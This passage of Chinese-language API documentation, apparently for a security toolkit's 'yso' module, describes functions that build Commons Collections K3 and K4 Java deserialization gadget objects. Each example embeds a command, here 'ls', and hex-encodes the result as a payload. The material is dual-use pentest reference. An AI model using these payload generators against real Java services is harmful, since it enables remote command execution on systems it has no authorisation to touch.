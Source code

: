 Example:
```
command := "ls" // 假设的命令字符串
javaObject, _ = yso.GetCommonsCollectionsK3JavaObject(command)
gadgetBytes,_ = yso.ToBytes(javaObject)
hexPayload = codec.EncodeToHex(gadgetBytes)
println(hexPayload)
```


#### 定义

`GetCommonsCollectionsK3JavaObject(cmd string) (*JavaObject, error)`

#### 参数
|参数名|参数类型|参数解释|
|:-----------|:---------- |:-----------|
| cmd | `string` |   |

#### 返回值
|返回值(顺序)|返回值类型|返回值解释|
|:-----------|:---------- |:-----------|
| r1 | `*JavaObject` |   |
| r2 | `error` |   |


### GetCommonsCollectionsK4JavaObject

#### 详细描述
GetCommonsCollectionsK4JavaObject 基于Commons Collections K4 序列化模板生成并返回一个Java对象。

这个函数接受一个命令字符串作为参数，并将该命令设置在生成的Java对象中。

cmd：要设置在Java对象中的命令字符串。

返回：成功时返回生成的Java对象及nil错误，失败时返回nil及相应错误。

Example:
```
command := "ls" // 假设的命令字符串
javaObject, _ = yso.GetCommonsCollectionsK4JavaObject(command)
gadgetBytes,_ = yso.ToBytes(javaObject)
hexPayload = codec.EncodeToHex(gadgetBytes)
println(hexPayload)
```


#### 定义

`GetCommonsCollectionsK4JavaObject(cmd string) (*JavaObject, error)`

#### 参数
|参数名|参数类型|参数解释|
|:-----------|:---------- |:-----------|
| cmd | `string` |   |
